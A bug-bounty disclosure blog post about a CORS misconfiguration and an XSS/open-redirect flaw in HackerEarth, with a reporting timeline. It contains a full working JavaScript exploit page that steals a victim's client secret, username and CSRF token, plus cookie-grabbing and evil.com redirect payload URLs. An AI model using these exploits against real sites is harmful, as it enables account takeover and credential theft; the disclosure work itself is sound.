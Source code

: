 ```yaml
---
title:      Stealing secrets tokens and all private info of victim hackerearth account 
date:       2020-07-10 11:31:19
author:     dr3dd
summary:    Stealing secrets tokens of hackerearth account 
categories: Bug-Bounty
thumbnail:  book
password:  h4k3re4rth_h4ck
tags:
 - Bug-Bounty
---
```


Hi all,

I found two bugs in hackerearth. one of them is fixed and other is still not fixed.

### 1. cores misconfiguration (fixed)

When i change the origin header in request to `https://www.hackerearth.com.evil.com` the responce i got is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.evil.com
```

I backend regex onlly check for `www.hackerearth.com` after `https://`. So i made a subdomain of my site `www.hackerearth.com.dr3dd.live` after passing this domain
in request i got the response is:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.dr3dd.live
```

We can see `Access-Control-Allow-Credentials: true` for `www.hackerearth.com.dr3dd.live`. So i wrote a small js script to steal secrets tokens of victim.

```html
<!DOCTYPE html>
<html>
<body>

<div>
<h1>Getting hackerearth Client secrets for victim!!!</h1>
<button type="button" onclick="loadDoc()">Get secrets!!!</button>
  <div id="demo1"></div>
  <div id="demo2"></div>
  <div id="demo3"></div>
<button type="button" onclick="get_csrf_token()">You can get any csrf token and make changes in victim account like this is account deactivate csrf token!!!</button>
  <div id="demo4"></div>
</div>

<script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc=parser.parseFromString(this.responseText, "text/html").documentElement;
        var clientId = xmlDoc.querySelector('#client-id');
        var clientSecret = xmlDoc.querySelector('#client-secret');
        var username = xmlDoc.querySelector('#change-username');
        document.getElementById("demo1").innerHTML = clientId.innerText;
        document.getElementById("demo2").innerHTML = clientSecret.innerText;
        document.getElementById("demo3").innerHTML = username.innerText.replace('Edit','');;
        
    }
  };
  xhttp.open("GET", "https://www.hackerearth.com/users/profile-settings/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function get_csrf_token(){
  var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc= parser.parseFromString(this.responseText, "text/html").documentElement;
        var csrf = xmlDoc.querySelector('#deactivate-form')[0].value;
      document.getElementById("demo4").innerHTML = "csrf for deactivate account : " + csrf;
    }
  };
  var username = document.getElementById("demo3").innerText;
  var url = "https://www.hackerearth.com/deactivate/" + username.replace("Username: ","");;
  xhttp.open("GET", url, true);
  xhttp.withCredentials = true;
  xhttp.send();
}
  
  
</script>

</body>
</html>
```

I have hosted it on `http://www.hackerearth.com.dr3dd.live/cores.html` first button steal secrets token and second one steal csrf tokens of victim.


### 2. XSS + Open Redirect (not fixed)

This one is pretty simple bug. for open redirect go to :

`https://www.hackerearth.com/social-login-complete-page/?redirect=https://evil.com`

to access cookie we can use :

`https://www.hackerearth.com/social-login-complete-page/?redirect=javascript:alert(document.cookie)`


Here is video POC link of both bugs :

[POC Drive Link](https://drive.google.com/drive/folders/1TrOvBYbtEp0gDGq2A7npSNd8_5ok8ccn?usp=sharing)


### Timeline

1. `March-16-2020`  Submit report to hackerearth via mail
2. `March-18-2020`  Submit Detail POC for bugs
3. `March-27-2020`  1st bug Core misconfiguration is fixed but there is no response from the security team.
4. `April-18-2020`  Asked for update but they said they still working on fix.
5. `Aug-09-2020`    Asked for update but they said they still working on fix.
6. `Aug-24-2020`    Asked for update but they said they still working on fix.
7. `Present`        Still not responding.